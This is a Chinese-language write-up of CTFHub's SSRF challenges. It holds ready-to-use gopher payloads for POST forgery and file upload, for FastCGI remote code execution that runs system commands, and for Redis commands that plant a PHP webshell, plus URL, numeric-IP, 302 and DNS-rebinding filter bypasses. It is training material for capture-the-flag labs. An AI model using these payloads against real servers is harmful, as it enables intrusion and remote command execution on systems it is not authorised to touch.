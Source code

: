 ```yaml
---
# 这是页面的图标
icon: token
# 这是文章的标题
title: CTFHub-Writeup
# 设置作者
author: lhz
# 设置写作时间
time: 2021-08-24
# 一个页面只能有一个分类
category: CTF
# 一个页面可以有多个标签
tag:
  - writeup

comment: false
---
```

## SSRF
  ![ssrf](/assets/img/ctf/ssrf.png)
  ### 内网访问
    直接构造访问请求,获取flag
    ```url
    /?url=127.0.0.1/flag.php
    ```
  ### 伪协议读取文件
    根据题目提示使用file://协议，尝试一般web目录/var/www/html/  
    ![file](/assets/img/ctf/file.png)
  ### 端口扫描
    提示端口范围8000到9000
    ```url
    /?url=127.0.0.1:8000
    ```
    使用burpsuite对端口进行爆破，即可得到端口，访问获取flag
  ### POST请求  
    访问/?url=127.0.0.1/flag.ph,返回页面  
    ![post1](/assets/img/ctf/post1.png)  
    包含一个form和隐藏的key，推测需要在form中提交key，F12添加提交按钮  
    ```
    <input type="submit" name="sbumit">
    ```   
    ![post3](/assets/img/ctf/post3.png)  
    在页面上提交key，页面返回"Just View From 127.0.0.1"  
    ![post5](/assets/img/ctf/post5.png)  
    可见需要通过SSRF提交请求，构造POST请求
    ```
  POST /flag.php HTTP/1.1
  Host: 127.0.0.1:80
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 36

  key=99cb8729f8a7ba5dcaa367dc092c2f2c
    ```
    因为通过SSRF，需要进行两次请求，所以对请求数据进行2次url编码，注意使用CRLF，第一次url编码后需要将%0A替换为%0D%0A,最后得到请求数据  
    ```
    POST%2520/flag.php%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AContent-Type%253A%2520application/x-www-form-urlencoded%250D%250AContent-Length%253A%252036%250D%250A%250D%250Akey%253D99cb8729f8a7ba5dcaa367dc092c2f2c
    ```
    使用gopher发送请求，gopher协议是SSRF中常用的一个协议：
    ```url
    gopher://IP:port/_{TCP/IP数据流}
    ```
    得到flag   
    ![post4](/assets/img/ctf/post4.png)
  ### 文件上传
  使用file协议查看flag.php，代码检查了上传ip和文件大小，所以需要从127.0.0.1上传非空文件
    ```php html
    <?php
    error_reporting(0);
    if($_SERVER["REMOTE_ADDR"] != "127.0.0.1"){
        echo "Just View From 127.0.0.1";
        return;
    }
    if(isset($_FILES["file"]) && $_FILES["file"]["size"] > 0){
        echo getenv("CTFHUB");
        exit;
    }
    ?>
    Upload Webshell
    <form action="/flag.php" method="post" enctype="multipart/form-data">
        <input type="file" name="file">
    </form>
    ```

  访问`/?url=127.0.0.1/flag.php`，返回一个文件上传form，根据题意需要提交文件获取flag，F12添加提交按钮  
  ![upload1](/assets/img/ctf/upload1.png)  
  提交一个随意非空文件，抓取上传数据包，修改host为127.0.0.1:80  
  ![upload2](/assets/img/ctf/upload2.png)  
  对上传数据进行二次url编码，注意第一次编码后将%0A替换为%0D%0A，得到编码后的请求数据  

  ```
  POST%2520%252Fflag.php%2520HTTP%252F1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AContent-Length%253A%2520280%250D%250ACache-Control%253A%2520max-age%253D0%250D%250AUpgrade-Insecure-Requests%253A%25201%250D%250AOrigin%253A%2520http%253A%252F%252Fchallenge-426ad735267eb08d.sandbox.ctfhub.com%253A10800%250D%250AContent-Type%253A%2520multipart%252Fform-data%253B%2520boundary%253D----WebKitFormBoundaryM9A8PenlAkNIPrWa%250D%250AUser-Agent%253A%2520Mozilla%252F5.0%2520(Windows%2520NT%252010.0%253B%2520Win64%253B%2520x64)%2520AppleWebKit%252F537.36%2520(KHTML%252C%2520like%2520Gecko)%2520Chrome%252F92.0.4515.159%2520Safari%252F537.36%250D%250AAccept%253A%2520text%252Fhtml%252Capplication%252Fxhtml%252Bxml%252Capplication%252Fxml%253Bq%253D0.9%252Cimage%252Favif%252Cimage%252Fwebp%252Cimage%252Fapng%252C*%252F*%253Bq%253D0.8%252Capplication%252Fsigned-exchange%253Bv%253Db3%253Bq%253D0.9%250D%250AReferer%253A%2520http%253A%252F%252Fchallenge-426ad735267eb08d.sandbox.ctfhub.com%253A10800%252F%253Furl%253D127.0.0.1%252Fflag.php%250D%250AAccept-Language%253A%2520zh-CN%252Czh%253Bq%253D0.9%250D%250ACookie%253A%2520UM_distinctid%253D17b2f471020f2e-06f3628e7e7e6e-4343363-1fa400-17b2f47102110f5%250D%250AConnection%253A%2520close%250D%250A%250D%250A------WebKitFormBoundaryM9A8PenlAkNIPrWa%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522file%2522%253B%2520filename%253D%2522123.txt%2522%250D%250AContent-Type%253A%2520text%252Fplain%250D%250A%250D%250A123%250D%250A------WebKitFormBoundaryM9A8PenlAkNIPrWa%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522123%2522%250D%250A%250D%250A%25C3%25A6%25C2%258F%25C2%2590%25C3%25A4%25C2%25BA%25C2%25A4%250D%250A------WebKitFormBoundaryM9A8PenlAkNIPrWa--
  ```
  使用gopher发送请求，得到flag  
  ![upload3](/assets/img/ctf/upload3.png)
  ### FastCGI协议
  [fastcgi相关介绍](https://blog.csdn.net/mysteryflower/article/details/94386461)  
  [gopher payload工具](https://github.com/tarunkant/Gopherus)  
  使用gopherus工具生成payload，运行命令`ls /`  
  ![fastcgi1](/assets/img/ctf/fastcgi1.png)   
  进行url编码后得到提交payload  
  ```url
  gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2504%2504%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2502CONTENT_LENGTH56%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%25008%2504%2500%253C%253Fphp%2520system%2528%2527ls%2520%2F%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
  ```
  发送请求，获取`/`下目录情况,发现flag文件  
  ![fastcgi2](/assets/img/ctf/fastcgi2.png)    
  使用gopherus工具生成payload，运行命令`cat /flag_14e0ba551d369f7992793e0b62395dc5`   
  ![fastcgi3](/assets/img/ctf/fastcgi3.png)   
  进行url编码后得到提交payload    
  ```url
  gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2504%2504%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2502CONTENT_LENGTH94%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%2500%255E%2504%2500%253C%253Fphp%2520system%2528%2527cat%2520%2Fflag_14e0ba551d369f7992793e0b62395dc5%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
  ```  
  发送请求，获得flag  
  ![fastcgi4](/assets/img/ctf/fastcgi4.png)

  ### Redis协议
  [浅析Redis中SSRF的利用](https://xz.aliyun.com/t/5665)  
  redis写shell命令如下
  ```shell
  flushall
  set 1 '<?php eval($_GET["feng"]);?>'
  config set dir /var/www/html
  config set dbfilename feng.php
  save
  ```
  使用gopherus工具生成redis攻击payload  
  ![redis1](/assets/img/ctf/redis1.png)  
  进行url编码得到请求payload
  ```
  gopher%3A%2F%2F127.0.0.1%3A6379%2F_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252434%250D%250A%250A%250A%253C%253Fphp%2520system%2528%2524_GET%255B%2527cmd%2527%255D%2529%253B%2520%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A%2Fvar%2Fwww%2Fhtml%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A
  ```
  请求后生成一句话shell.php文件，利用参数cmd，构造请求`/shell.php?cmd=ls%20/`  
  ![redis2](/assets/img/ctf/redis2.png)  
  获取flag文件，再构造请求`/shell.php?cmd=cat%20/flag_1d41ab57dcc1507d5d99e103cdca52da`,获得flag  
  ![redis3](/assets/img/ctf/redis3.png)  
  ### URL Bypasss
    访问地址提示"start with `http://notfound.ctfhub.com`", 所以需要以`http://notfound.ctfhub.com`开头，构造访问url如下获取flag
    ```url
    /?url=http://notfound.ctfhub.com@127.0.0.1/flag.php
    ```
  ### 数字IP Bypass
  题目提示ban掉了127以及172.不能使用点分十进制的IP，但是又要访问127.0.0.1
    - 方法一：  
    使用localhost代替127.0.0.1,构造请求url如下，获取flag
    ```url
    /?url=http://localhost/flag.php
    ```
    - 方法二:  
    将127.0.0.1转换为16进制0x7F000001,构造请求url如下，获取flag
    ```url
    /?url=http://0x7F000001/flag.php
    ```  

  ### 302跳转 Bypass
  题目提示过滤了127.0.0.1，使用[数字IP Bypass](#数字ip-bypass)可以绕过，但是题意是使用302跳转绕过，可以生成短链接302跳转获得flag,  [短链接生成网站](https://my5353.com/)  
  ![短链接访问](/assets/img/ctf/302.png)
  ### DNS重绑定
  [DNS重绑定漏洞](https://zhuanlan.zhihu.com/p/89426041)  
  使用file://协议查看flag.php查看代码发现过滤了`/127|172|10|192/`开头，可以用16进制方式绕过，但是考虑到题目要求使用DNS重绑定  
  使用[rbndr.us dns rebinding service](https://lock.cmpxchg8b.com/rebinder.html)获取域名  
  ![dns1](/assets/img/ctf/dns1.png)  
  访问或取flag  
  ![dns2](/assets/img/ctf/dns2.png)
